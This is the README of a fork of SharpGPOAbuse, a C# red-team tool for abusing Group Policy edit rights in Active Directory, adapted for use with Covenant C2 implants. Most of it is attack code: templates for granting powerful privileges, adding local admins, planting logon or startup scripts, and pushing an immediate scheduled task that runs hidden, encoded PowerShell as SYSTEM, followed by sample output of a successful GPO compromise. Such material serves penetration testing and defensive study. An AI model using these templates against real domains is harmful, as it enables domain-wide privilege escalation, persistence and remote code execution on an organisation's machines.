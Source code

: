 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork provides some modifications for use with Covenant's Grunts.  The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs); removing the dependency for CommandLineParser, and modifying `Main()` to hardcode an attack type and associated options.

## Compile Instructions ## 
SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage ##
Modify line `36` to define the attack type.
e.g. `StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");`

Modify the strings (line `11` and onwards) to define the necessary options for the chosen attack type.

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```c#
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin 
```c#
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script  
```c#
string ScriptName = "";
string ScriptContent = "";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task  
```c#
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output
```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```